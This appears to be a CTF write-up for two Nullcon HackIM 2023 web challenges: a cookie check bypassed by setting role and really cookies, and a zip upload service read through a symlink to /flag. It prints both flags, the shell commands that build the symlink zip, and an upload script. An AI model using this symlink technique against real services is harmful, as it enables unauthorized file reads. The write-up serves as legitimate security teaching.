 ```yaml
---
title: Nullcon HACKIM CTF 2023
published: 2023-03-10
description: Challenge walkthrough's
image: ./logo_nullcon.png
tags: [web, ctf, zipslip]
category: CTF
draft: false      # Set only if the post's language differs from the site's language in `config.ts`
---
```


## Challenge - Reguest

Description : HTTP requests and libraries are hard. Sometimes they do not behave as expected, which might lead to vulnerabilities.

## **Solution :**

On visiting the page , it shows with some instruction and cookies.

![image](https://raw.githubusercontent.com/0xRamInf0sec/Nullcon-HackIM-CTF-2023-writeups/refs/heads/main/Nullcon%20HackIM%20CTF%20fe5a0190811f41cfa761fb017ffe61fc/ctf01.png)

```php
role = request.cookies.get('role','guest')
	really = request.cookies.get('really', 'no')
	if role == 'admin':
		if really == 'yes':
			resp = 'Admin: ' + os.environ['FLAG']
		else:
			resp = 'Guest: Nope'
	else:
		resp = 'Guest: Nope'
	return Response(resp, mimetype='text/plain')
```

Look at the code , the role variable has the ‘role’ cookie and really variable has the ‘really’ cookie and it checks whether the role cookie is equals to admin and really cookie equals to yes . 

If both role and really equals to admin and yes respectively , we will get flag !!.

Now , we have to set the cookies role = admin and really = yes …

Flag : `ENO{R3Qu3sts_4r3_s0m3T1m3s_we1rd_dont_get_confused}`

## Challenge : zpr

Description : My colleague built a service which shows the contents of a zip file. He says there's nothing to worry about.…

## Solution:

The webpage shows with some instruction as make a zipfile as post request !!.

![image](https://raw.githubusercontent.com/0xRamInf0sec/Nullcon-HackIM-CTF-2023-writeups/refs/heads/main/Nullcon%20HackIM%20CTF%20fe5a0190811f41cfa761fb017ffe61fc/ctf02.png)

So, we have to send zip file to the server.They gave the actual backend code for the challege.

```python
def upload():
	output = io.StringIO()
	if 'file' not in request.files:
		output.write("No file provided!\n")
		return Response(output.getvalue(), mimetype='text/plain')

	try:
		file = request.files['file']

		filename = hashlib.md5(secrets.token_hex(8).encode()).hexdigest()
		dirname = hashlib.md5(filename.encode()).hexdigest()

		dpath = os.path.join("/tmp/data", dirname)
		fpath = os.path.join(dpath, filename + ".zip")

		os.mkdir(dpath)
		file.save(fpath)

		with zipfile.ZipFile(fpath) as zipf:
			files = zipf.infolist()
			if len(files) > 5:
				raise Exception("Too many files!")

			total_size = 0
			for the_file in files:
				if the_file.file_size > 50:
					raise Exception("File too big.")

				total_size += the_file.file_size

			if total_size > 250:
				raise Exception("Files too big in total")

		check_output(['unzip', '-q', fpath, '-d', dpath])

		g = glob.glob(dpath + "/*")
		for f in g:
			output.write("Found a file: " + f + "\n")

		output.write("Find your files at http://...:8088/" + dirname + "/\n")

	except Exception as e:
		output.write("Error :-/\n")

	return Response(output.getvalue(), mimetype='text/plain')
```

On looking up the code, we can see that the website extracts our archive .It should have checked for any symlinks associated with the zip file but it doesn’t.

We have to create the zip file with symlink!!

```bash
ln -s /flag flag.txt
zip --symlinks flag.zip flag.txt
```

So, now we have to upload this zip file to the server using python.

```python
import requests

URL = "http://52.59.124.14:10015/"
files = {'file': open('flag.zip', 'rb')}
getdata = requests.post(URL, files=files)
print(getdata.content)
```

![image](https://raw.githubusercontent.com/0xRamInf0sec/Nullcon-HackIM-CTF-2023-writeups/refs/heads/main/Nullcon%20HackIM%20CTF%20fe5a0190811f41cfa761fb017ffe61fc/ctf03.png)

We have a path to the uploaded zip file , on visiting to that path we can able to see the zip file with flag.txt@ 

Got the flag using flag.txt@ file!!.

Flag : `ENO{Z1pF1L3s_C4N_B3_Dangerous_so_b3_c4r3ful!}`
